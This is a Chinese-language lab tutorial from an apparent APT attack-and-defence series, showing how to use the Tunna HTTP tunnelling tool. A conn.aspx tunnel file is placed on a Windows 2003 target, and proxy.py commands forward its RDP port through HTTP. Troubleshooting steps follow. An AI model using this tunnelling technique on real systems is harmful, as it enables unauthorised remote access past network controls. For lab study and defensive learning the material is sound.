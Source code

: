# 专注APT攻击与防御
https://micropoor.blogspot.com/

**Tunna简介：**

Tunna1.1 是 secforce 在2014年11月出品的一款基于HTTP隧道工具。其中v1.1中支持了SOCKS4a。

Tunna演示稿：
https://drive.google.com/open?id=1PpB8_ks93isCaQMEUFf_cNvbDsBcsWzE

Github：
https://github.com/SECFORCE/Tunna

**攻击机：** 
192.168.1.5 Debian
192.168.1.4 Windows 7

**靶机：** 
192.168.1.119 Windows 2003

**安装：**
```bash
root@John:~# git clone https://github.com/SECFORCE/Tunna.git
Cloning into 'Tunna'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 156 (delta 0), reused 2 (delta 0), pack‐reused 150
Receiving objects: 100% (156/156), 8.93 MiB | 25.00 KiB/s, done.
Resolving deltas: 100% (84/84), done.
```
![](media/dac94b993935a569d6b5cec53e91eb54.jpg)

**靶机执行：**

以aspx为demo。
![](media/45105406fce5e573635d20030393a928.jpg)

**攻击机执行：**
```python
python proxy.py ‐u http://192.168.1.119/conn.aspx ‐l 1234 ‐r 3389 ‐s ‐ v
```
![](media/270e3220479652ae6eb658f40156cf97.jpg)

![](media/5e8e8a0ea358fdf98fc37bbb31b5994e.jpg)


## 附录：

**解决：**General Exception: [Errno 104] Connection reset by peer
```bash
[+] Spawning keep‐alive thread
[‐] Keep‐alive thread not required
[+] Checking for proxy: False
```

连接后，出现
```bash
General Exception: [Errno 104] Connection reset by peer
```

等待出现：**无法验证此远程计算机的身份，是否仍要连接？**

再次运行，在点击是(Y)
```bash
python proxy.py ‐u http://192.168.1.119/conn.aspx ‐l 1234 ‐r 3389 ‐s ‐ v
```
![](media/086a4ba0d1640a1d5b5efb747490329d.jpg)

![](media/1a7fb8afe7862e95f22ce331e1ea6480.jpg)

![](media/89343acc07c18c27399943cd200091b6.jpg)


**如果：没有出现“无法验证此远程计算机的身份，是否仍要连接？”**

注册表键值：
HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers
删除对应IP键值即可。

非常遗憾的是，Tunna对PHP的支持并不是太友好。

>   Micropoor
